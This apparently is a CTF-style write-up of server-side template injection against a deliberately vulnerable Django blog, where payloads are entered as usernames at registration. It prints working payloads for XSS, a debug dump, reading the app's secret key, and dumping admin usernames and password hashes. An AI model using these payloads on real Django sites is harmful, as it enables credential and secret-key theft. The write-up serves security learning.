                                                                           #Server Side Template Injection
#Solution

Observe the setting page ![Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__. So I try to test SSTI here.
![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)

##Solution
When I try to register an account. I realized it didn't control the username format and this web use Django framwork. So I can register an account with an special username.

###B1. Identify the underlying engine.
Python has some template engine such as Tornaldo, Jinja, Django. Now , sign up an account with username is a formula evaluation. 
`{{ 7 * 7 }}`
But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)
Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.
`{% debug %}`
![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)
Successfully, It displayed debug content in username. 

###B2. Exploit
After indentify the template engine that it's using is DJT. We can exploit futher.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see ![here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        
